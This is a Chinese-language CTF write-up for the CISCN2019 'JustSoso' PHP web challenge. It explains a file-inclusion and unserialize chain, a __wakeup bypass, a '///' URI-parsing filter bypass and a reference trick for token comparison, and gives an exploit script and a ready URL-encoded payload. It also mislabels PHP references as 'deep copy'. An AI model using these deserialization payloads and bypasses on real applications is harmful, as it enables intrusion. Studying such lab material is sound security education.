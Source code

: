 ```yaml
---
layout: post
title: CISCN2019 JustSoso
date: 2021-08-02 16:37 +0800
last_modified_at: 2021-08-02 16:37:00 +0800
tags: [CTF,Web,Write-up]
toc:  true
---
```

关键词：php，绕过，反序列化

这道题虽然看上去是一道反序列化题目，但是其实我个人感觉占比更大的是php的一些小trick。比如反序列化绕过`__wakeup`魔术方法，`///`绕过`$\_SERVER['REQUEST_URI']`和php深拷贝处理随机数比较等。buu上并没有题目复现，但是赛后放了源码，根据源码在本地搭建复现一波。

原题思路是，通过php伪协议读取index.php和hint.php，最终用反序列化获取到flag.php。

index.php

```
<?php
error_reporting(0);
$file = $_GET["file"]; 
$payload = $_GET["payload"];
if(!isset($file)){
    echo 'Missing parameter'.'<br>';
}
if(preg_match("/flag/",$file)){
    die('hack attacked!!!');
}
@include($file);
if(isset($payload)){  
    $url = parse_url($_SERVER['REQUEST_URI']);
    parse_str($url['query'],$query);
    foreach($query as $value){
        if (preg_match("/flag/",$value)) { 
            die('stop hacking!');
            exit();
        }
    }
    $payload = unserialize($payload);
}else{ 
   echo "Missing parameters"; 
}

?>
```

hint.php

```
<?php  
class Handle{
    private $handle;
    public function __wakeup(){
        foreach(get_object_vars($this) as $k => $v) {
            $this->$k = null;
        }
        echo "Waking up\n";
    }
    public function __construct($handle) { 
        $this->handle = $handle; 
    } 
    public function __destruct(){
        $this->handle->getFlag();
    }
}

class Flag{
    public $file;
    public $token;
    public $token_flag;
 
    function __construct($file){
        $this->file = $file;
        $this->token_flag = $this->token = md5(rand(1,10000));
    }

    public function getFlag(){
        $this->token_flag = md5(rand(1,10000));
        if($this->token === $this->token_flag)
        {
            if(isset($this->file)){
                echo @highlight_file($this->file,true); 
            }  
        }
}
}
?>
```

index.php中存在一个文件包含漏洞，而文件本身并不涉及反序列化所需的类，而hint.php中有两个类，其中Flag类的getFlag函数可以被利用获取flag。因而大致思路为通过index.php包含hint.php，再构造一个Handle类在析构的时候调用getFlag函数完成读取。

不过反序列化也只是这道题的基础，这道题主要难点在于去绕过`__wakeup`魔术方法和绕过`$_SERVER['REQUEST_URI']`。

`$_SERVER['REQUEST_URI']`绕过方法大致为在域名后加上`///`，在不妨碍http解析的情况下使该函数在判断的时候发生错误，返回false而不是应该返回的具体path。如此绕过对关键字flag的检测。（需要注意的是，这个小trick仅适用于php <= 5.4.7）。

对于`__wakeup`魔术方法的绕过为在输入反序列化字符串时增加反序列化对象数量，使得对象数量与实际对象数量不符，会产生报错从而不触发`__wakeup`魔术方法。

而随机数比较这里引入深浅拷贝的概念，即：

```
$a = 1;
$b = $a;  //浅拷贝
$a = 2;
$b == 1;  //true

$a = 1;
$b = &$a; //深拷贝
$a = 2;
$b == 1;  //false
$b == 2;  //true
```

即深拷贝可以理解为$b作为一个指向$a的指针，随着$a改变$b也在进行改变。因而在最后的随机数比较的地方，我们就可以用深拷贝解决这个问题。

最后给出exp：

```
<?php  
class Handle{ 
    private $handle;  
    public function __construct($handle) { 
        $this->handle = $handle; 
    }
}

class Flag{
    public $file;
    public $token;
    public $token_flag;
    
    function __construct($file){
        $this->file = $file;
        $this->token_flag = md5(rand(1,10000));
        $this->token = &$this->token_flag;
    }
}

$a = new Flag('flag.php');
$b = new Handle($a);
echo urlencode(serialize($b));
?>
```

以及最终的payload：

```
///?file=hint.php&payload=O%3A6%3A%22Handle%22%3A2%3A%7Bs%3A14%3A%22%00Handle%00handle%22%3BO%3A4%3A%22Flag%22%3A3%3A%7Bs%3A4%3A%22file%22%3Bs%3A8%3A%22flag.php%22%3Bs%3A5%3A%22token%22%3Bs%3A32%3A%224bbbe6cb5982b9110413c40f3cce680b%22%3Bs%3A10%3A%22token_flag%22%3BR%3A4%3B%7D%7D
```



